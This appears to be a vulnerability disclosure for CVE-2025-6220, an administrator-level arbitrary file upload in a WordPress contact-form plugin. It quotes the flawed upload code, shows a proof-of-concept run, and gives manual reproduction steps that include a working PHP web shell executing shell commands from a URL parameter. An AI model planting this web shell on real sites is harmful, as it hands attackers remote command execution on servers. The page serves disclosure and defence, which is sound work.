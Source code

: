 +++
title = 'Ultimate Addons for Contact Form 7 <= 3.5.12 - Authenticated (Administrator+) Arbitrary File Upload via save_options'
date = 2025-06-17T00:00:12+00:00
hideToc = true
tags = ["CVE", "WordPress"]
description = "CVE-2025-6220: WordPress Ultimate Addons for Contact Form 7 plugin authenticated file upload vulnerability via save_options."
+++
### CVE-2025-6220

The [Ultimate Addons for Contact Form 7](https://wordpress.org/plugins/ultimate-addons-for-contact-form-7/) plugin does not sanitize the file types in its options save functionality, allowing administrators or above to upload arbitrary files and potentially gain code execution on the server.

## TL;DR Exploits
* A POC [CVE-2025-6220.py](https://github.com/d0n601/CVE-2025-6220/blob/master/CVE-2025-6220.py) is provided to demonstrate an administrator uploading a web shell named `shell.php`.

```console
python3 CVE-2025-6220.py https://lab1.hacker admin PASSWORD

Logging into: https://lab1.hacker/wp-admin
Extracting nonce values...
70e7b99966
Uploading web shell: shell.php
{"status":"success","message":"Options saved successfully!"}
Web Shell Location: https://lab1.hacker/wp-content/uploads/itinerary-fonts/shell.php

Executing test command: ip addr
<pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 61299sec preferred_lft 61299sec
    inet6 fd17:625c:f037:2:a00:27ff:fe5b:342f/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 86240sec preferred_lft 14240sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:39:ea:eb brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe39:eaeb/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:bd:e1:95:26 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
</pre>
```

## Details
The `uacf7_options_save` functionality in `/wp-content/plugins/ultimate-addons-for-contact-form-7/admin/tf-options/classes/UACF7_Settings.php` processes file uploads without enforcing proper file type validation.

Lines [894-920](https://plugins.trac.wordpress.org/browser/ultimate-addons-for-contact-form-7/trunk/admin/tf-options/classes/UACF7_Settings.php#L894-920) of the `save_options()` function check the HTTP request for $_FILES and only validates the MIME type against a generic `application/octet-stream`. It will then store the file in a web accessible directory `/wp-content/uploads/itinerary-fonts`.

```php
$tf_fonts_extantions = array( 'application/octet-stream' );
for ( $i = 0; $i < count( $_FILES['file']['name'] ); $i++ ) {
    if ( in_array( $_FILES['file']['type'][ $i ], $tf_fonts_extantions ) ) {
        $tf_font_filename = $_FILES['file']['name'][ $i ];
        move_uploaded_file( $_FILES['file']['tmp_name'][ $i ], $tf_itinerary_fonts . '/' . $tf_font_filename );
    }
}
```

## Manual Reproduction
1. Login to the admin panel and navigate to `Ultimate Addons -> Settings`.
2. Start up Burp Suite or a similar tool and begin intercepting the traffic. 
3. Click the `Save` button in the lower right hand corner. 
![test1](/posts/images/cve-2025-6220/1.png)
4. Intercept the POST request in Burp, and append your own file data (ensure you use the correct form boundaries).
```
------WebKitFormBoundarydAJeoqdwR5qxfDb1
Content-Disposition: form-data; name="file[]"; filename="shell.php"
Content-Type: application/octet-stream

<?php
// Silence is golden
if (!empty($_GET['cmd'])) {
    echo "<pre>".shell_exec($_GET["cmd"])."</pre>";
}
------WebKitFormBoundarydAJeoqdwR5qxfDb1--
```
![test2](/posts/images/cve-2025-6220/2.png)

5. Forward the request and verify the response indicates success:
```json
{"status":"success","message":"Options saved successfully!"}
```
6. Navigate to `https://lab1.hacker/wp-content/uploads/itinerary-fonts/shell.php` to execute the proof of concept.
![test3](/posts/images/cve-2025-6220/3.png)
